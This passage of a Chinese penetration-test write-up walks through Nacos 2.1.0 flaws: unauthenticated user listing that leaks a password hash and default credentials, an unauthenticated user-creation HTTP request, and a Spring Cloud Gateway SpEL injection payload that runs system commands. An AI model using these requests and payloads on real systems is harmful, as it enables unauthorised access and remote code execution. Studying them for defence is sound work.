Nacos是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台，由阿里巴巴开源。它致力于帮助您快速实现动态服务发现、服务配置、服务元数据及流量管理。Nacos支持几乎所有主流类型的服务发现、配置和管理，包括Kubernetes Service、gRPC & Dubbo RPC Service、Spring Cloud RESTful Service等。通过Nacos，您可以轻松构建、交付和管理微服务平台，实现服务的动态发现、配置和治理。
```

然后去网上找了一下Nacos的漏洞

## Nacos漏洞

https://www.freebuf.com/articles/428863.html

访问/v1/console/server/state看看Nacos的版本信息

```java
{"version":"2.1.0","standalone_mode":"standalone","function_mode":null}
```

### 1.未授权查看用户信息

由于系统默认未开启鉴权 导致未授权访问

```html
nacos.core.auth.enabled=false
```

访问/v1/auth/users?pageNo=1&pageSize=1

```java
{"totalCount":1,"pageNumber":1,"pagesAvailable":1,"pageItems":[{"username":"nacos","password":"$2a$10$EuWPZHzz22dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"}]}
```

存在默认弱口令nacos/nacos

### 2.未授权添加用户

```http
POST /v1/auth/users HTTP/1.1
Host: 
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Wed, 28 Jul 2021 11:28:45 GMT
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

username=test&password=test123
```




添加后进行登录

根据上面的代码可以知道在Spring Cloud中是注册了一个默认的 `NacosDiscoveryProperties` Bean

查看一下Springcloud版本为3.0.5，找到一个 https://xz.aliyun.com/news/10939#toc-3 

在修改配置里面

```json
spring:
  cloud:
    gateway:
      routes:
        - id: exam
          order: 0
          uri: lb://service-provider
          predicates:
            - Path=/echo/**
          filters:
            - name: AddResponseHeader
              args:
                name: result
                value: "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'id'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
```

换成json格式，然后发包，随后访问/echo/123就行了
